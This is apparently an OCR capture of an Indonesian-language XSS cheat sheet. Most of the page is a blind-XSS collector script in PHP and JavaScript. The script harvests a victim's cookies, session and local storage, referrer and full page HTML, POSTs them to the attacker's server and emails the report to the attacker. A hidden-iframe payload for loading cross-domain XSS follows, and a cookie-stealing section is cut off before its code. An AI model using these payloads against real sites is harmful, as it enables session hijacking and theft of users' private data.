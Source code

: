        <?php header("Content-type: application/javascript"); ?>
    
       var mailer = '<?= "//" . $_SERVER\["SERVER_NAME"\] . $_SERVER\["REQUEST_URI"\] ?>';
    
       var msg = 'USER AGENT\\n' + navigator.userAgent + '\\n\\nTARGET URL\\n' + document.URL;
    
       msg += '\\n\\nREFERRER URL\\n' + document.referrer + '\\n\\nREADABLE COOKIES\\n' +
    
       document.cookie;
    
       msg += '\\n\\nSESSION STORAGE\\n' + JSON.stringify(sessionStorage) + '\\n\\nLOCAL
    
       STORAGE\\n' + JSON.stringify(localStorage);
    
       msg += '\\n\\nFULL DOCUMENT\\n' + document.documentElement.innerHTML;
    
       var r = new XMLHttpRequest();
    
       r.open('POST', mailer, true);
    
       r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    
       r.send('origin=' + document.location.origin + '&msg=' + encodeURIComponent(msg));
    
    
    
       <?php
    
       header("Access-Control-Allow-Origin: " . $_POST\["origin"\]);
    
       $origin = $_POST\["origin"\];
    
       $to = "myName@myDomain";
    
       $subject = "XSS Blind Report for " . $origin;
    
       $ip = "Requester: " . $_SERVER\["REMOTE_ADDR"\] . "\\nForwarded For: ".
    
       $_SERVER\["HTTP_X_FORWARDED_FOR"\];
    
       $msg = $subject . "\\n\\nIP ADDRESS\\n" . $ip . "\\n\\n" . $_POST\["msg"\];
    
       $headers = "From: report@myDomain" . "\\r\\n";
    
       if ($origin && $msg) mail($to, $subject, $msg, $headers);
    
       ?>

> Invisible Foreign XSS Embedding

Gunakan untuk memuat XSS dari domain lain (atau subdomain) ke domain saat ini. Dibatasi oleh

header X-Frame-Options (XFO) target. Contoh peringatan di bawah ini dalam konteks brutelogic.com.br

terlepas dari domain.

       <iframe src="//brutelogic.com.br/xss.php?a=<svg onload=alert(document.domain)>"
    
       style=display:none></iframe>

> Cookie Stealing

Gunakan untuk mendapatkan semua cookie dari pengguna korban yang ditetapkan oleh situs target. Cookie tidak dapat dilindungi oleh

http Hanya bendera keamanan. Encode "+" sebagai "% 2B" di URL.
